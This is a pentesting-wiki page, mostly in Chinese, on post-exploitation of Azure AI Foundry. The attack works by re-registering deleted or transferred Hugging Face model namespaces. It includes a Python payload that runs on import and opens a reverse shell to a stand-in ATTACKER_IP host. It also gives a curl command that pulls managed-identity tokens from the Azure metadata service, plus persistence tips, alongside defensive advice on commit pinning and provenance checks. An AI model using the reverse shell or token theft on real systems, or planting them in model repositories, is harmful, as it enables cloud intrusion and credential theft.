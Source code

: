# Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## 场景

- Azure AI Foundry Model Catalog 包含许多可一键部署的 Hugging Face (HF) 模型。
- HF model identifiers are Author/ModelName。 如果某个 HF author/org 被删除，任何人都可以重新注册该 author 并在 legacy path 发布具有相同 ModelName 的模型。
- 那些仅按名称拉取（no commit pinning/integrity）的 pipelines 和 catalogs 会解析到被攻击者控制的 repos。当 Azure 部署模型时，loader code 可能在 endpoint 环境中执行，从而以该 endpoint 的权限获得 RCE。

常见的 HF takeover 情况：
- Ownership deletion：旧路径返回 404，直到被接管。
- Ownership transfer：当旧 author 仍存在时，旧路径会 307 重定向到新 author。如果旧 author 之后被删除并被重新注册，重定向会失效，攻击者的 repo 将在 legacy path 提供服务。

## 识别可重用的命名空间 (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## 针对 Azure AI Foundry 的端到端攻击流程

1) 在 Model Catalog 中，查找在 HF 上原始 author 已被删除或转移（旧 author 已被移除）的模型。
2) 在 HF 上重新注册被弃用的 author 并重建 ModelName。
3) 发布一个包含在 import 时执行或需要 trust_remote_code=True 的 loader code 的恶意 repo。
4) 从 Azure AI Foundry 部署遗留的 Author/ModelName。平台会拉取攻击者的 repo；loader 在 Azure endpoint 容器/VM 内执行，从而在具有 endpoint permissions 的情况下造成 RCE。

示例 payload 片段，在 import 时执行（仅用于演示）：
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
注意
- AI Foundry 部署在集成 HF 时，通常会克隆并导入模型配置所引用的仓库模块（例如 auto_map），这可能触发代码执行。某些路径需要 trust_remote_code=True。
- 访问通常与该端点的 managed identity/service principal 权限一致。应将其视为在 Azure 内进行数据访问和横向移动的初始访问据点。

## Post-Exploitation 提示 (Azure 端点)

- 枚举环境变量和 MSI 端点以获取令牌：
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- 使用获取的 token 检查已挂载的存储、模型工件以及可访问的 Azure 服务。
- 如果平台会从 HF 重新拉取，可考虑通过留下被投毒的模型工件实现持久性。

## Azure AI Foundry 用户的防御建议

- 从 HF 加载时按 commit 固定模型：
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 将已审核的 HF 模型镜像到受信任的内部注册表并从那里部署。
- 持续扫描代码库和 defaults/docstrings/notebooks 中的硬编码 Author/ModelName（已被删除/转移）；进行更新或固定版本。
- 在部署前验证 author 是否存在以及 model provenance。

## 识别启发式 (HTTP)

- Deleted author: author 页面 404；legacy model path 404，直到被接管。
- Transferred model: legacy path 307 指向新 author，而旧 author 仍存在；如果旧 author 之后被删除并重新注册，legacy path 会提供攻击者内容。
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 交叉引用

- 有关更广泛的方法论和供应链说明，请参见：

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考资料

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
